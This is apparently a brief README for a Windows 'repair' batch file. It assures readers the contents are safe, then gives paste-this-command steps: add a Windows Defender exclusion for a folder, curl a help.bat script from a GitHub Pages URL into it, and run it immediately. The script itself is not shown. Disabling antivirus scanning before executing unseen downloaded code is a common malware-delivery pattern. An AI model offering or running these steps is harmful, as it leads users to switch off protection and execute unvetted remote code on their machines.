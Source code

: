 This is a batch file for repair.

The contents are not dangerous.
However, since I couldn't think of a way to complete it with commands alone, I am creating an exclusion folder.


powershell
```
mkdir C:check
Add-MpPreference -ExclusionPath C:check
```
cmd
```
cd C:check
curl -s https://yuyu1815.github.io/win-repair/help.bat -o script.bat && script.bat
```
del
```
rm -rf C:check
```
